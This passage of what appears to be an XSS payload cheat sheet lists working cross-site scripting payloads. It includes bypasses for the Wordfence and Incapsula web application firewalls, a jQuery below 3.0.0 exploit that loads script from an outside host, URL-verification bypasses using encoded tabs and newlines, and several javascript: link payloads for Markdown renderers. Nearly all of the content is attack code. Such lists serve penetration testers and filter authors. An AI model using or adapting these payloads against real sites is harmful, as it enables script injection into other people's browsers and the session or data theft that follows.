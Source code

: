 **Wordfence XSS Bypasses**

```html
<meter onmouseover="alert(1)"
```

```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**Incapsula WAF Bypasses** by [@i_bo0om](https://twitter.com/i_bo0om)

```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```

```html
<img/src=q onerror='new Function`al\ert\`1\``'>
```

**jQuery < 3.0.0 XSS**
 by [Egor Homakov](https://github.com/jquery/jquery/issues/2432)

```js
$.get('http://sakurity.com/jqueryxss')
```

In order to really exploit this jQuery XSS you will need to fulfil one of the following requirements:

1) Find any cross domain requests to untrusted domains which may inadvertently execute script.
2) Find any requests to trusted API endpoints where script can be injected into data sources.

**URL verification bypasses (works without `&#x09;` too)**

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS**

```md
[a](javascript:confirm(1))
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```


[a]: (javascript:prompt(1))